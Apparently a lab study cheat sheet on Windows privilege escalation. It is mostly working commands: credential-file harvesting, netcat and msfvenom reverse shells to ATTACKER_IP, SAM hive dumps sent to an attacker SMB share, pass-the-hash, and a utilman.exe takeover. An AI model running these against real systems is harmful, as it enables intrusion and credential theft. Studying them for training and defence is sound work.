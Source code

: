 # Windows Privilege Escalation

Notes
```powershell
type = cat
```

## Unattended Windows Installations

-   `C:\Unattend.xml`
-   `C:\Windows\Panther\Unattend.xml`
-   `C:\Windows\Panther\Unattend\Unattend.xml`
-   `C:\Windows\system32\sysprep.inf`
-   `C:\Windows\system32\sysprep\sysprep.xml`

```powershell
<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```

## Powershell History

```CMD 
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

**Note:** The command above will only work from cmd.exe, as Powershell won't recognize `%userprofile%` as an environment variable. To read the file from Powershell, you'd have to replace `%userprofile%` with `$Env:userprofile`

## Saved Windows Credentials

```powershell
cmdkey /list
```

```powershell
runas /savecred /user:admin cmd.exe
```

## IIS Configuration

-   `C:\inetpub\wwwroot\web.config`
-   `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`

Here is a quick way to find database connection strings on the file:

```powershell
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

```powershell
type C:\inetpub\wwwroot\web.config | findstr connectionString
```

## Retrieve Credentials from Software: PuTTY

To retrieve the stored proxy credentials, you can search under the following registry key for Proxy Password with the following command:

```powershell
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

## Scheduled Tasks

Task
```powershell
C:\> schtasks /query /tn vulntask /fo list /v
```

File Permissions
```powershell
C:\> icacls c:\tasks\schtask.bat
```

Reverse Shell
```powershell
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

Run Task
```powershell
C:\> schtasks /run /tn vulntask
```

## AlwaysInstallElevated

Requires two registry values to be set
```powershell
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

msfvenom
```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.220.190 LPORT=LOCAL_PORT -f msi -o malicious.msi
```
Run the Metasploit Handler module configured accordingly

Run
```powershell
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

## Windows Services

**Service Control Manager** (SCM)
```powershell
C:\> sc qc apphostsvc
```

All of the services configurations are stored on the registry under `HKLM\SYSTEM\CurrentControlSet\Services\`

## Insecure Permissions on Service Executable

Splinterware System Scheduler
```powershell
C:\> sc qc WindowsScheduler
```

```powershell
C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
```

```shell
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4445 -f exe-service -o rev-svc.exe
```

Grant full permissions to the Everyone group
```powershell
C:\> cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
        Successfully processed 1 files.
```

Restart Service
```powershell
C:\> sc stop windowsscheduler
C:\> sc start windowsscheduler
```
**Note:** PowerShell has `sc` as an alias to `Set-Content`, therefore you need to use `sc.exe` in order to control services with PowerShell this way.

## Unquoted Service Paths

Proper quotation
```powershell
C:\> sc qc "vncserver"
```

Without proper quotation
```powershell
sc qc "disk sorter enterprise"
```

## Insecure Service Permissions

[Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) 
```powershell
C:\tools\AccessChk> accesschk64.exe -qlc thmservice
```

```powershell
C:\> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
```

## Windows Privileges

Check privileges
```powershell
whoami /priv
```

[Windows Privilege Constants (Authorization)](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)
[Priv2Admin](https://github.com/gtworek/Priv2Admin)

## SeBackup / SeRestore

To backup the SAM and SYSTEM hashes, we can use the following commands:

```powershell
C:\> reg save hklm\system C:\Users\THMBackup\system.hive
```

```powershell
C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive
```

This will create a couple of files with the registry hives content. We can now copy these files to our attacker machine using SMB or any other available method. For SMB, we can use impacket's `smbserver.py` to start a simple SMB server with a network share in the current directory of our PC:

`locate smbserver.py`

```shell
user@attackerpc$ mkdir share
user@attackerpc$ python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```

This will create a share named `public` pointing to the `share` directory, which requires the username and password of our current windows session. After this, we can use the `copy` command in our windows machine to transfer both files to our PC: 

```powershell
C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
```

```powershell
C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
```

Use impacket to retrieve the users' password hashes
```shell
python3.9 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```

Perform a Pass-the-Hash attack
```shell
python3.9 /usr/share/doc/python3-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@10.10.10.10
```

## SeTakeOwnership

Check privileges
```powershell
whoami /priv
```

We'll abuse `utilman.exe`

Start by taking ownership of it
```powershell
takeown /f C:\Windows\System32\Utilman.exe
```

To give your user full permissions over utilman.exe you can use the following command
```powershell
icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
```

We will replace utilman.exe with a copy of cmd.exe
```powershell
copy cmd.exe utilman.exe
```

Proceed to click on the "Ease of Access" button

## SeImpersonate / SeAssignPrimaryToken

















